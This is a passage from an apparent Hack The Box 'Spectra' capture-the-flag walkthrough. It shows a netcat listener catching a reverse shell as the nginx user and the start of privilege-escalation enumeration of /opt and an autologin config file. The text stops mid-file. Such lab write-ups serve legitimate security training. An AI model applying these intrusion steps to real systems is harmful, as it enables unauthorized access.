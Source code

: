 ![](src/activate.png)

As soon as we activate the plugin, we got a reverse connection on our nc listener...

```bash
┌──(root💀f4T1H)-[~/hackthebox/spectra]
└─> nc -lvnp 2121
listening on [any] 2121 ...
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.229] 41518
$ id
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
$
```

# Privilege Escalation: `initctl`

## user part

Before escalating to root, we need to escalate user first. After a little bit of enumeration, we encounter an interesting file in /opt/autologin.conf.orig

```bash
nginx@spectra ~ $ ls -lah /opt     
ls -lah /opt
total 44K
drwxr-xr-x 10 root root 4.0K Feb  3 16:42 .
drwxr-xr-x 22 root root 4.0K Feb  2 14:52 ..
drwxr-xr-x  2 root root 4.0K Jun 28  2020 VirtualBox
-rw-r--r--  1 root root  978 Feb  3 16:02 autologin.conf.orig
drwxr-xr-x  2 root root 4.0K Jan 15 15:53 broadcom
drwxr-xr-x  2 root root 4.0K Jan 15 15:54 displaylink
drwxr-xr-x  2 root root 4.0K Jan 15 15:53 eeti
drwxr-xr-x  5 root root 4.0K Jan 15 15:55 google
drwxr-xr-x  6 root root 4.0K Feb  2 15:15 neverware
drwxr-xr-x  5 root root 4.0K Jan 15 15:54 tpm1
drwxr-xr-x  5 root root 4.0K Jan 15 15:54 tpm2
nginx@spectra ~ $ file /opt/autologin.conf.orig
file /opt/autologin.conf.orig
/opt/autologin.conf.orig: ASCII text, with CRLF line terminators
nginx@spectra ~ $ cat /opt/autologin.conf.orig
cat /opt/autologin.conf.orig
# Copyright 2016 The Chromium OS Authors. All rights reserved.
# Use of this source code is governed by a BSD-style license that can be
# found in the LICENSE file.
description   "Automatic login at boot"
```